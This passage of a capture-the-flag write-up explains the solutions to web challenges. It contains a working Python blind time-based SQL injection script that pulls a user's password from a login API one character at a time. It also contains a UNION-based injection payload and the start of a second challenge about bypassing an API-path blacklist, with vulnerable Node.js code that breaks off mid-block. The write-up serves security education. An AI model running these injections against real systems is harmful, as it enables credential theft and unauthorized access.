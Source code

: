 this challenge can be solved blind time based as following (time consuming , not smart , not intended)

```python
#!/usr/bin/env python3
import requests


url = "https://event2-0-4893hjf.vercel.app/api/login"
keyspace = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz!@#$^&*'
flag=""
data={'user':'','password':'test'}
 
for i in range(16):
    for x in range (31,126) :
        data['user']= f"fitzh' AND IF({x}=ascii(SUBSTR((SELECT password FROM users_table where userName='fitzh'),{i+1},1)),SLEEP(5),0);-- -"
        response = requests.post(url,json=data)
        if(response.elapsed.total_seconds()>3):
            flag += chr(x)
            print(flag)
            break 


print(flag)
```

Or it can be easily solved using the `AS` Alias as some people did during the CTF

```json
{ 
      "user": "fritzh' UNION SELECT 'fritzh'  as userName, '\" AND \\'1\\' = \\'1' as password, (SELECT password from users_table where username='fitzh') as type, '' as firstName, '' as lastName WHERE '1' = '1' OR '1' = \" FROM  users_table", 
      "password": "\" AND '1' = '1"
}
 ```


## 2- Augustus Gloop's Secret (APIs)



The challenge discusses a recent bypass technique that when an api is blacklisted like "/admin" , it can be called with "/admin/" and the check will be bypassed easily , but this time they blacklisted the `/` character , so we can find other way to add a character make it valid to request `/getuser` but also bypasses the check of `requireAuthentication` 

There is a user id `:4dc6b6fa-963f-4c51-b100-d2c5def2498d` given to retrieve its data as a POC.


```js

dotenv.config();
const uuidFormat = /^[0-9a-f]{8}-[0-9a-f]{4}-[0-5][0-9a-f]{3}-[089ab][0-9a-f]{3}-[0-9a-f]{12}$/i;
const requireAuthentication = ['getuser', 'getcompany'];

app.post('/callApi', async (req, res) => {
    let json = req.body;
    let api = String(json.api)?.trim()?.toLowerCase().replaceAll('/', '').replaceAll('\\', '');
    let token = json.token;
    try {
        if (requireAuthentication.includes(api)) {
            if (token == process.env.tokenSecret) {
                console.log("authenticated api:", api);
                const response = await axios.post(`http://localhost:${process.env.internalPort}/${api}`, json);
                res.send(response.data);
```